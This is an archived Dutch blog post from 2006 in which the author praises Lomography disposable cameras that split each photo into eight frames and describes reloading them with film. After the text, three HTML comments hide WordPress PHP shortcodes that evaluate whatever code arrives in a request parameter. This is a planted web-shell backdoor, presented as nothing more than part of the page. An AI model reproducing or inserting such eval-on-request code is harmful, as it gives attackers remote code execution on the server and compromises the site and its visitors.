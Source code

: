 ```yaml
---
title: "Fijne mechaniek"
date: "2006-03-26T11:01:09"
permalink: "2006/03/26/fijne-mechaniek/"
tags: ["archive"]
layout: "archive-post"
---
```

Ik ben een grote [lomography](http://www.lomography.com/ "www.lomography.com") fan. Enkele jaren geleden heb ik samen met enkele andere een pak van 5 wegwerp toestelletjes gekocht. Het speciale er aan is dat elke foto opgesplitst is in 8 deeltjes. De 8 mini-fotootjes worden getrokken over een tijd van ongeveer 2 seconden, je krijgt dus een soort van fotostrip.

Enfin, het mooie aan de toestelletjes is dat je met een beetje prutsen er opnieuw een film in kan steken, dus je kan hem toch hergebruiken. En dat is wel handig, want het zou zonde zijn dit prachtig staaltje techniek slechts eenmalig te gebruiken.

<!– \[insert\_php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/php\] –>
